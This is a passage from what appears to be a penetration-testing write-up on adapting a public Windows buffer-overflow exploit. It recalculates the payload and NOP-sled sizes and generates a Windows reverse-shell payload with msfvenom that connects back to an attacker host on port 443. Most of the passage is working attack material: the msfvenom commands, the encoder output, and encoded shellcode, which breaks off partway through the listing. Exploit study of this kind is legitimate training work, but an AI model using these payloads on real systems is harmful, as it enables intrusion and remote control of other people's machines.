 Note the payload size is 388 bytes, not 380 as advertised. This is a little worring but we can press forward with our own smaller windows reverse shell payload: 

```
msfvenom -p windows/shell_reverse_tcp LHOST=$ATTACK LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python
```

Payload size is now 348 bytes, 32 lower than the original exploit now lets consider the nopslide.
The \x90 operation corresponds to a NOP (No Operation) value in the shellcode variable.

Counting through the value we see 47 \x90s in the code and another issue, the shellcode variable re-declares itself on lines 46-48:

``` python
shellcode="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" #first decleration
shellcode="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" #second decleration
shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" #first append, rest of code is as expected.
```

We'll assume the exploit needs 380 bytes and err on the side of caution and assume the exploit worked as submitted go with an orignal NOP sled size of 30 bytes meaning that when we include the additional 32 bytes for our shellcode reduction we need an additional 62 bytes giving us the following command to generate the shellcode:


```
msfvenom -p windows/shell_reverse_tcp LHOST=$ATTACK LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode -n 62
```

gives us:

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Successfully added NOP sled of size 62 from x86/single_byte
Payload size: 410 bytes
Final size of python file: 2216 bytes
shellcode =  ""
shellcode += "\x92\x92\x48\xf8\xf5\x98\x98\x3f\xf9\x27\xf5\x48"
shellcode += "\x27\x43\x99\x98\x27\x92\x42\x9f\x48\xfc\x27\xf9"
shellcode += "\x3f\x49\x37\x98\x93\x42\x49\x49\x4b\xd6\x9f\x48"
shellcode += "\x43\x48\x9b\x91\xfc\xf9\xf9\x92\x91\xf9\x27\x98"
shellcode += "\x41\xd6\x42\x91\xf8\x41\xfc\x9b\x3f\x90\xfd\xf9"
shellcode += "\x98\x42\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff"
shellcode += "\xc0\x5e\x81\x76\x0e\x66\xf8\x2a\xc8\x83\xee\xfc"
shellcode += "\xe2\xf4\x9a\x10\xa8\xc8\x66\xf8\x4a\x41\x83\xc9"
shellcode += "\xea\xac\xed\xa8\x1a\x43\x34\xf4\xa1\x9a\x72\x73"
shellcode += "\x58\xe0\x69\x4f\x60\xee\x57\x07\x86\xf4\x07\x84"
shellcode += "\x28\xe4\x46\x39\xe5\xc5\x67\x3f\xc8\x3a\x34\xaf"
shellcode += "\xa1\x9a\x76\x73\x60\xf4\xed\xb4\x3b\xb0\x85\xb0"
shellcode += "\x2b\x19\x37\x73\x73\xe8\x67\x2b\xa1\x81\x7e\x1b"
shellcode += "\x10\x81\xed\xcc\xa1\xc9\xb0\xc9\xd5\x64\xa7\x37"
shellcode += "\x27\xc9\xa1\xc0\xca\xbd\x90\xfb\x57\x30\x5d\x85"
shellcode += "\x0e\xbd\x82\xa0\xa1\x90\x42\xf9\xf9\xae\xed\xf4"
shellcode += "\x61\x43\x3e\xe4\x2b\x1b\xed\xfc\xa1\xc9\xb6\x71"
shellcode += "\x6e\xec\x42\xa3\x71\xa9\x3f\xa2\x7b\x37\x86\xa7"
shellcode += "\x75\x92\xed\xea\xc1\x45\x3b\x90\x19\xfa\x66\xf8"
```